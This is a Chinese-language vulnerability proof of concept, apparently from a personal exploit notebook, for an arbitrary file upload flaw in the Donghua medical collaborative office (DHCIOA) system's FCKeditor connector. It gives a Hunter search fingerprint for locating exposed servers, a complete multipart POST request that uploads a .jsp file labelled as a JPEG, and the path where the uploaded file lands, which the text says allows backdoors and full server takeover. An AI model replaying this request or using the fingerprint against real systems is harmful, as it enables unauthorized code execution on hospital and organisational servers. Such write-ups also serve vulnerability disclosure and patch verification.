 # 东华医疗协同办公系统 connector接口处存在任意文件上传漏洞

# 一、漏洞简介
东华oa协同办公 (DHCIOA)选用B/S结构的作业模式，以个性化效芳的门户为基础，以消息传递、信息同享、公函、作业流处理技能为中心，以先进老练的计算机和通讯技能为首要手法，供给内部网络之间的信息沟通，有效处理、和谐各部分之间的作业，提高文件处理的精确性、及时性和科学性，为企事业/政府机关单位完成无纸化作业供给完整的软件支撑，全面提高作业效率。东华医疗协同办公系统 connector接口处存在任意文件上传漏洞，攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

# 二、影响版本
+ 东华医疗协同办公系统

# 三、资产测绘
+ Hunter`web.body="/skin/charmBlue/css/dialog.css"`
+ 特征

![1705157130503-f3fa0a36-6d9a-4ef8-be4c-c35f8dc03239.png](./img/gO9SKq3KWNRMPZ_M/1705157130503-f3fa0a36-6d9a-4ef8-be4c-c35f8dc03239-510859.png)

# 四、漏洞复现
```http
POST /common/FCKeditor/editor/filemanager/browser/default/connectors/jsp/connector?Command=FileUpload&Type=&CurrentFolder=/ HTTP/1.1
Host: 
Cookie: JSESSIONID=17A17E4D9E4E38B72D650895AFF7D1DF
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryt1qdEWTI01cj5BLV
Connection: close
Content-Length: 292

------WebKitFormBoundaryt1qdEWTI01cj5BLV
Content-Disposition: form-data; name="NewFile"; filename="stc.jsp"
Content-Type: image/jpeg

123good
------WebKitFormBoundaryt1qdEWTI01cj5BLV
Content-Disposition: form-data; name="Submit"

upload
------WebKitFormBoundaryt1qdEWTI01cj5BLV--
```

![1705157687374-29e624d3-24b5-4052-a3b7-9c8c877a6e28.png](./img/gO9SKq3KWNRMPZ_M/1705157687374-29e624d3-24b5-4052-a3b7-9c8c877a6e28-024117.png)

上传文件位置

```http
/common/FCKeditor/UserFiles/stc.jsp
```

![1705157714589-d5cc4aa8-dc1b-42db-9589-640aba4960d2.png](./img/gO9SKq3KWNRMPZ_M/1705157714589-d5cc4aa8-dc1b-42db-9589-640aba4960d2-666968.png)



> 更新: 2024-02-29 23:55:42  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/yc0w19lqn3qt4ege>